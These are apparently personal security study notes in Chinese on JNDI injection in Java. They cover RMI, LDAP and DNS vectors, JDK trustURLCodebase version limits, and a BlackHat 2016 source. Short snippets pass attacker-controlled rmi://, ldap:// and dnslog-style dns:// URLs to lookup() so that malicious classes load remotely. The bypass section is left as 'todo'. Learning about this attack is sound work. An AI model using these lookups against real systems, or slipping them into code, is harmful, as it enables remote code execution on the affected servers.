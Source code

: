 # 2-邂逅各种注入

**邂逅 —— 「雨伞倾斜的第二次偶然」**

## 1. jndi注入

示例代码见

### 1.1 背景知识

> The **Java Naming and Directory Interface** (**JNDI**) is a Java [API](https://en.wikipedia.org/wiki/Application_programming_interface) for a [directory service](https://en.wikipedia.org/wiki/Directory_service) that allows Java software clients to discover and look up data and resources (in the form of Java [objects](https://en.wikipedia.org/wiki/Object_(computer_science))) via a name. Like all [Java](https://en.wikipedia.org/wiki/Java_(programming_language)) APIs that interface with host systems, JNDI is independent of the underlying implementation.

简单来说，JNDI 就像Java里的“电话簿”，让你可以通过名字找到各种资源（如Java对象、数据库、EJB、消息队列等）和各种目录服务如LDAP、DNS、RMI Registry等），无论它们是在本地还是远程服务器上。

这里主要记录LADP、RMI、DNS 协议的攻击。

* **版本限制** 

JDK 6u141、7u131、8u121之后：增加了`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为`false`，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为`false`，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

<img src="https://cdn.jsdelivr.net/gh/Rain1er/images@main/img/20200419225882.png" alt="image.png" style="zoom:50%;" />



## 1.2 利用手法

> 当开发者在定义 JNDI 接口初始化时，lookup() 方法的参数可控，攻击者就可以将恶意的 url 传入参数远程加载恶意载荷，造成注入攻击。

最初公开于BlackHat 2016（USA）

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf



### 1.2.1 利用RMI协议注入

> `Remote Method Invocation` JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象

```java
String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的对象,传入攻击者可控的RMIServer,其中包含恶意类
InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
initialContext.lookup(uri); // 获取指定的远程对象
```



### 1.2.2 利用LDAP协议注入

>  `Lightweight Directory Access Protocol` 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("ldap://127.0.0.1:7777/Exp");
```



### 1.2.3 利用DNS协议注入

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("dns://c17208f0.log.cdncache.rr.nu.");    // 关闭clash的tun模式
```





## 1.3 原理分析 & 高版本的绕过

todo

